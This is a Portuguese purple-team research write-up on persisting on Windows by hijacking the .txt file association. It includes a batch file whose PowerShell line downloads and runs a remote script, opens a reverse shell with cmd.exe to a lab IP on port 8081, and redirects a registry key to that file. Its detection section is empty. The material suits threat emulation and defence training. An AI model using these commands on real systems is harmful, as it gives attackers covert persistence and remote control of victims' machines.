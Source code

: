 
<p align="center">
  <img src="./imagens/ISHLOGO.png" alt="Logo do Purple Team" width="300" height="300">
</p>

# CTI Purple Team - Execução Acionada por Evento: Alterar Associação de Arquivo Padrão 

Quando um arquivo é criado em um sistema operacional como o Windows, ele é automaticamente associado a um programa específico que será usado para abrir esse tipo de arquivo quando clicado duas vezes. A execução acionada por evento permite que os usuários personalizem a maneira como os arquivos são abertos, definindo regras específicas para acionar a execução de aplicativos diferentes com base em diferentes eventos.

Neste contexto, exploraremos os conceitos por trás da execução acionada por evento representando o sequestro da extenção ***.txt***, sendo possível executar um aplicativo malicioso antes que o arquivo real seja aberto, gerando um reverse shell na máquina do atacante, a fim de obter persistência.

<p align="center">
  <img src="imagens/Fluxograma_ServiceExecution.png">
</p>

**A priori, para executar o sequestro de extensão, é importante salientar que o atacante já possua o primeiro acesso inicial à máquina alvo, com privilégios administrativos. Portando, já ter realizado a Execução e Escalação de Privilégios na vítima**.

## Contexto

Ao clicar duas vezes em um arquivo ***.txt***, ele é aberto com um ***notepad.exe***. O windows por padrão sabe que para abrir esse tipo de extensão precisa usar o *notepad.exe*.

As seleções de associação de arquivos são armazenados no Registro do Windows e estão listadas em **HKEY_CLASSES_ROOT.[extention]**, no caso dessa pesquisa será listado em **HKEY_CLASSES_ROOT.txt** e, podem ser editados por administradores ou programas que tenham acesso ao Registro ou por administradores usando o utilitário associado, desde que tenham elevação de privilégio de administrador. 

## Emulação de Ameaça - Criação de Arquivo Malicioso Através do ps.exe

Há dois locais de registro que definem os manipuladores de extensão, que são mostrados a seguir, e são classificados como: *Global* e *Local*.

<p align="center">
  <img src="imagens/locais-de-registro.png">
</p>

Quando um usuário tenta abrir um arquivo, o sistema operacional verifica os registros locais em (HKEY_CURRENT_USER) para determinar qual programa está designado para lidar com aquela extensão de arquivo. Caso nao houver nenhuma entrada de registro associada, a verificação é feita na árvore de registro global (HKEY_CLASSES_ROOT).

Dependendo dos privilégios do usuário (Administrador ou Usuário Padrão), esses locais de registro podem ser explorados para executar código malicioso, utilizando o manipulador de extensão como um gatilho.

Portanto, podemos observar que o manipulador de extensão ***.txt*** está definido na chave de registro abaixo:
```zsh
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Abaixo exemplifico que o comando responsável por abrir arquivos *.txt* é o *notepad.exe %1*, onde o argumento *%1*, especifica um nome de arquivo qualquer, ou seja, é uma variante para o nome dos arquivos que o bloco de notas deve abrir:

<p align="center">
  <img src="imagens/Editor-de-registro-HKEY.png">
</p>

Supomos que o usuário alvo possua uma arquivo chamado ***test.txt*** em sua área de trabalho, contendo o conteúdo do arquivo ilustrado abaixo:

<p align="center">
  <img src="imagens/arquivo-vitima.png">
</p>

Iremos criar agora um arquivo malicioso que será executado quando o usuário alvo tentar abrir o arquivo chamado test.txt, sendo que com a execução desta têcnica pode ser qualquer arquivo aleatório, apenas seguindo o critério de extenção .txt usado como exemplo nesta pesquisa.

Para isso, criaremos um arquivo em lotes simples do Windows chamado ***shell.cmd*** na maquina do usuário alvo:
```zsh
start notepad.exe %1
powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.140.128/purplecat.ps1');purplecat -c 192.168.140.128 -p 8081 -e cmd.exe"


```
Este comando do PowerShell baixa um script remoto chamado purplecat.ps1de um local específico e, em seguida, usa esse script para estabelecer uma conexão "backdoor" com uma máquina remota no endereço IP 192.168.140.128na porta 8081, permitindo que comandos sejam executados cmd.exenessa máquina.






A partir disso, podemos sequestrar a extensão do arquivo .txt, modificando os dados do valor de registro de Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command para C:\Users\Win-test\Desktop\shell.cmd, local onde nosso arquivo malicioso está gravado.

<p align="center">
  <img src="imagens/mod.registro.png">
</p>

Após a modificação a chave de registro se encontrará da mesma maneira que a imagem a seguir:

<p align="center">
  <img src="imagens/modificado.png">
</p>

A seguir na máquina do atacante, iremos rodar dois comandos no terminal, um para baixar o arquivo aberto pelo usuário e outro para escutar a porta selecionada para sequestrar a sessão do sistema da vítima:

<p align="center">
  <img src="imagens/comando-para-baixar-arquivo.png">
</p>

O comando acima, baixa os arquivos .txt abertos pela vítima. E o comando abaixo utilizaremos o [*NetCat*](https://www.devmedia.com.br/netcat-o-canivete-suico-tcp-ip-revista-infra-magazine-8/26299#:~:text=O%20Netcat%2C%20criado%20em%202004,conectividade%2C%20seguran%C3%A7a%2C%20entre%20outros.) como Listener, ao ser iniciado irá ouvir qualquer conexão realizada na porta **8081/TCP**. 

<p align="center">
  <img src="imagens/comando-escustar-maquina-alvo.png">
</p>

Após realizar todos esses passos, quando o usuário alvo abrir qualquer arquivo .txt e executar o arquivo malicioso simultâneamente, a conexão será realizada com o *listener* na porta **8081/TCP**, mencionada acima.

![Gif-emulação](imagens/gif-emulação.gif)

## Engenharia de Detecção



# Conclusão

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link](https://ishtecnologia.sharepoint.com/sites/CTI-PurpleTeam/_layouts/15/stream.aspx?id=%2Fsites%2FCTI%2DPurpleTeam%2FDocumentos%20Compartilhados%2FVideos%2FCTI%20Purple%20Team%20%2D%20Movimenta%C3%A7%C3%A3o%20Lateral%20Atrav%C3%A9s%20do%20Invoke%2DSMBExec%2Emp4&referrer=StreamWebApp%2EWeb&referrerScenario=AddressBarCopied%2Eview).
